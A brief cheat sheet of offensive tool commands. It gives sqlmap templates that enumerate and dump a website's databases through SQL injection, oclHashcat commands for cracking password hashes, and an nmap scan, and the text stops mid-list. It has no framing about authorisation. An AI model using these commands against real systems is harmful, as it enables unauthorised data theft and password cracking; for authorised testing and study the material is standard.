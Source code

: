 sqlmap

List databases on website


Code:
sqlmap -u <website> --dbs



List tables of database


Code:
sqlmap -u <website> -D <database> --tables


List column names of table


Code:
sqlmap -u <website> -D <database> -T <table> --columns


List column data of table


Code:
sqlmap -u <website> -D <database> -T <table> -C <column> --dump

Dumping output to file

add --dump


Cracking a hashed password

Identify hash type

use HashID

Crack hash

1. Get code for hash type


Code:
./oclHashcat.bin --help | grep <hashtype>


2. Start cracking


Code:
./oclHashcat.bin -m <code> <hashfile> <dictionary>



Nmap

Scan single host
  

Code:
nmap 192.168.0.1


Scan multiple hosts

